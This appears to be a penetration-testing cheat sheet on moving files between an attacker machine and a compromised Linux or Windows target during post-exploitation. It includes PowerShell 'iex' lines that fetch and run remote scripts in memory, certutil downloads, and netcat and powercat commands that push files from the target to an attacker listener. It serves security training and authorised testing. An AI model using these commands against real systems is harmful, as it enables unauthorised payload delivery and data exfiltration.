 ```yaml
---
title: Transfering Files
category: Post Exploitation
order: 7
---
```


In this section I’m going to enumerate difference methods to transfer files such us exploits or outputs of some scripts from our attacker machine to the target and viceversa.

In order to perform our work we have the need of transfer some files and this post collects some of this methods. Let’s see, these are some possibilities of environment that we can find during our audits.

# Linux 📤 to Linux 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
php -S 0.0.0.0:port
ruby -run -e httpd . -p port
busybox httpd -f -p port
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
axel -a -n 20 -o file.name https://ip-addr:port/filen.name

#Freebsd
fetch -o file.name -q -R http://ip-addr:port/file.name
```

## Netcat / Socat

There are more ways with different protocols or programs to transfer our files:

```bash
nc -lp port > file.name
sudo socat TCP4-LISTEN:port,fork file:file.name
```

And on the target:

```bash
nc -w 3 ip-addr port < file.name
sudo socat TCP4:ip-addr:port file:file.name,create
```

## FTP (File Transfer Protocol)

First we need to start our ftp server, in this case I will use the Python module **pyftpdlib**, that allows you to set up our ftp server very quickly. To install you run the following command:

```bash
sudo apt-get install python-pyftpdlib
```

And start the **server**:

```bash
python -m pyftpdlib -p 21
```

Finally you can download the file on the **target** with:

```bash
wget ftp://ip-addr/file.name [--ftp-user=user] [--ftp-password=password]
axel -a -n 20 -o file.name ftp://ip-addr:port/filen.name
```

## Base64 Encoding

This is not the best solution beause you will need to Copy & Paste the output, and if you need to transfer a big file could be so tedious. Btw this are the commands:

```bash
base64 file.name
```

Copy the result and paste on your machine inside some quotes:

```bash
base64 -d "ZmxhZ3tINGNrMW5nTjB0ZXN9Cg==" > file.name
```

# Linux 📤 to Windows 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
```

And download our files with **Windows** basics on the **target**:

### Via CMD:

```bash
certutil -urlcache -f "http://ip-addr:port/file.name" file.name
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Via Powershell:

```bash
(New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Import Powershell Script without storing in memory

```
iex (New-Object System.Net.Webclient).DownloadString('http://ip-addr:port/file.ps1')
iex (iwr 'http://ip-addr:port/file.ps1')
```

## SMB

Server Message Block (SMB) is a network protocol that allows us share files, printers, etc, between nodes that are Microsoft Windows.

To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
python smbserver.py NAME FOLDER
```

And simply copy the file in the share volume to the target:

```bash
copy \\ip-addr\NAME\file.name .\file.name
```

Maybe there are some others ways to transfer files between Linux and Windows, but with these methods is more than enough to do our job!

# Windows 📤 to Linux 📥

This section will be similar to previous one.

## HTTP

If the target have python installed you can start the **server** in the same way:

_(Be careful on windows the python script in python2.7 is `http.server` and not `SimpleHTTPServer`)_

```bash
python -m http.server
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
```

## SMB

In that case the **smb server** will also start on the attacker's machine (Linux). To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket):

```bash
python smbserver.py NAME FOLDER
```

But the differece will be the order of copy arguments:

```bash
copy .\file.name \\ip-addr\NAME\file.name
```

## Powercat

Powercat is essentially the powershell version of netcat. First need to install in yout kali Machine to download the script:

> **Installation**: sudo apt install powercat

Then you will find the script in the following directory:

* `/usr/share/windows-resources/powercat/powercat.ps1`

Onced transfered the script and imported the module, start the listener on the kali

```
nc -lp port > file.name
```

And execute the following command to send the desired file.

```
powercat -c ip-addr -p port -i file.name
```

# Windows 📤 to Windows 📥

## SMB

First we need to create a password protected shared.

```
New-SmbShare -Name "share" -Path C:\Users\user\Desktop\share -FullAccess user
```

Once the shared the new share we need to mount it on the target machine.

```
net use Z: \\10.10.10.10\share /user:user password /persistent:yes
```

> **Note**: If an error such as `The local device name is already in use.` you can delete it with:
>
> `net use Z: /delete`

Finally we can list and use files:

```
dir Z:\
copy ./file.txt Z:\file.txt
```


# References:

* [https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/](https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
* [https://guide.offsecnewbie.com/transferring-files](https://guide.offsecnewbie.com/transferring-files)
* [https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
